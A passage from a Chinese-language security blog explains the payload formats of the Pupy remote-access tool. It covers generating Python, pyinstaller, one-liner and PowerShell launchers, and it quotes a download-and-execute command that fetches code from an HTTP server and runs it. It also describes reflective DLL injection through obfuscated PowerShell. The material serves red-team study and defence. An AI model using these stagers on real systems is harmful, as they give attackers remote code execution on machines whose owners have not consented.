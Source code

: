 如果要在Windows系统的Python环境下运行这个Python文件，Windows系统还需要安装以下模块：

- pywin32
- pycryptodome
- Crypto

**注：**

Crypto包需要从http://www.voidspace.org.uk/python/modules.shtml#pycrypto 处下载

### 3.pyinst

生成与pyinstaller兼容的Python文件

命令示例：

```
gen -f pyinst
```

同`gen -f py`的区别：添加了一些头文件，便于使用pyinstaller将Python脚本转换成exe文件

在之前的文章[《本地密码查看工具LaZagne中的自定义脚本开发》](https://3gstudent.github.io/3gstudent.github.io/%E6%9C%AC%E5%9C%B0%E5%AF%86%E7%A0%81%E6%9F%A5%E7%9C%8B%E5%B7%A5%E5%85%B7LaZagne%E4%B8%AD%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E8%84%9A%E6%9C%AC%E5%BC%80%E5%8F%91/)介绍过pyinstaller的用法

### 4.py_oneliner

通过urllib库从服务器下载Python代码并执行

命令示例：

```
gen -f py_oneliner
```

在命令行输出下载执行的代码，示例：

```
python -c 'import urllib;exec urllib.urlopen("http://192.168.1.1:9000/a0py9Yz5pi/Sg11A11q2J").read()'
```

### 5.ps1

生成powershell格式的启动代码，执行时会先启动Powershell进程，然后在Powershell进程中加载dll

生成32位文件的命令示例：

```
gen -f ps1
```

这个命令将从`pupy/pupy/payload_templates/`读取dll的模板文件，添加配置信息和经过混淆的[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)代码，最终实现在Powershell进程中加载dll

**注：**

上述命令对应的模板文件名称为pupyx86.dll
